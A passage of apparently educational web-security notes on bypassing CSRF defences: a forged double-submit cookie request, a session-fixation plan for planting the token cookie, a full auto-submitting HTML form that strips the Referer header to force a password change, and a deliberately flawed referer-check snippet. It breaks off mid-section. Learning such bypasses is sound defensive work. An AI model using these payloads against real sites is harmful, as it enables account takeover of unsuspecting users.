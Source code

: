 the following request is valid in the double-submit cookie system:
```
POST /password_change
Host: email.example.com
Cookie: session_cookie=YOUR_SESSION_COOKIE; csrf_token=not_a_real_token
(POST request body)
new_password=abc123&csrf_token=not_a_real_token
```

Generally you can't change another user's cookie, But if you can find a way to make the victim’s browser send along a fake cookie, you’ll be able to execute the CSRF
the attack will look like this:
1. use a session-fixation technique to make the victim’s browser store whatever value you choose as the CSRF token cookie.
   
> [!NOTE] Session fixation
> an attack that allows attackers to select the session cookies of the victim
> for further information take a look at [Session fixation - Wikipedia](https://en.wikipedia.org/wiki/Session_fixation)

2. Then, you’d execute the CSRF with the same CSRF token that you chose as the cookie.
## Bypass CSRF Referer Header Check
Try to remove `referer header` by adding a `<mata>` tag to the page hosting your request form 
```html
<html>
<!--This particular tag tells the browser to not include a referer header in the resulting HTTP request-->
 <meta name="referrer" content="no-referrer">
 <form method="POST" action="https://email.example.com/password_change" id="csrf-form">
 <input type="text" name="new_password" value="abc123">
 <input type='submit' value="Submit">
 </form>
 <script>document.getElementById("csrf-form").submit();</script>
</html>
```

Broken Code:
```python

def validate_referer():
  if (request.referer in allowlisted_domains):
    pass
 else:
   throw_error("Referer incorrect. Request rejected.")
[...]
def process_state_changing_action():
 if request.referer:
   validate_referer()
 execute_action()

```


### bypass the logic check used to validate the referer URL
the app check if the referrer containing the domain like "example.com"

